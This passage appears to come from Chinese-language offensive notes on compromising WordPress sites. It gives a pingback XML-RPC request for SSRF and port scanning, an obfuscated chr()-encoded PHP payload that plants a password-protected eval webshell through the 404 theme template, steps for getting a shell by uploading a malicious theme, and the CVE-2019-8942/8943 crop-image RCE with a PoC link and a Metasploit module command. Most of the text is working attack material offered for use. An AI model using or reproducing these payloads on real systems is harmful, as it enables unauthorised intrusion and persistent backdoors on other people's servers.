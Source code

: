 - SSRF

    WordPress 版本 <3.5.1, 通过 Pingback 可以实现的服务器端请求伪造 (Server-side request forgery，SSRF) 和远程端口扫描。
    ```
    POST /wordpress/xmlrpc.php HTTP/1.1
    Host: www.example.com
    Content-Length: 99

    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>要探测的ip和端口：http://127.0.0.1:80</string></value>
    </param><param><value><string>网站上一篇博客的URL：http://localhost/wordpress/?p=1)<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```

**WordPress 后台拿 SHELL**
- 后台编辑404页面Getshell

    "主题"-“编辑”-“404.php”
    ```
    <script language="php">fputs(fopen(chr(46).chr(47).chr(99).chr(111).chr(110).chr(103).chr(46).chr(112).chr(104).chr(112),w),chr(60).chr(63).chr(112).chr(104).chr(112).chr(32).chr(64).chr(101).chr(118).chr(97).chr(108).chr(40).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91).chr(39).chr(112).chr(97).chr(115).chr(115).chr(39).chr(93).chr(41).chr(59).chr(63).chr(62));</script>
    ```
    插到文件头,404默认模板路径是：wp-content/themes/twentyten/404.php,其中"twentyten"目录是默认模板目录。更新完直接访问 localhost/wp-content/themes/twentyten/404.php 就会在twentyten目录生成一句话后门文件cong.php 密码pass，插入的代码是Chr加密，可自行编辑。（仔细看代码，文件名与一句话代码用" ,w "隔开了）

- 上传本地主题Getshell

    本机建立目录“test”,可以直接把一句话放到index.php文件，再新建一个style.css样式文件(版本不同，上传时会判断是否存在"index.php"文件和"style.css"样式文件。)

    打包test目录为zip文件。WP后台的主题管理，上传主题，安装。则你的后门路径为： `localhost/wp-content/themes/test/index.php`

**CVE-2019-8942 & CVE-2019-8943 WordPress Crop-image Shell Upload**
- 简介

    此模块利用 WordPress 版本5.0.0和<= 4.9.8上的路径遍历和本地文件包含漏洞。 裁剪图像功能允许用户（至少具有作者权限）通过在上载期间更改 _wp_attached_file 引用来调整图像大小并执行路径遍历。 利用的第二部分将通过在创建帖子时更改 _wp_page_template 属性，将该图像包含在当前主题中。 目前，此漏洞利用模块仅适用于基于 Unix 的系统。

- 影响版本
    - wordpress < 4.9.9
    - wordpress 5.0 ~ 5.0:rc3

- POC | Payload | exp
    - [brianwrf/WordPress_4.9.8_RCE_POC: A simple PoC for WordPress RCE (author priviledge), refer to CVE-2019-8942 and CVE-2019-8943.](https://github.com/brianwrf/WordPress_4.9.8_RCE_POC)

- MSF Module
    ```
    use exploit/multi/http/wp_crop_rce
    ```

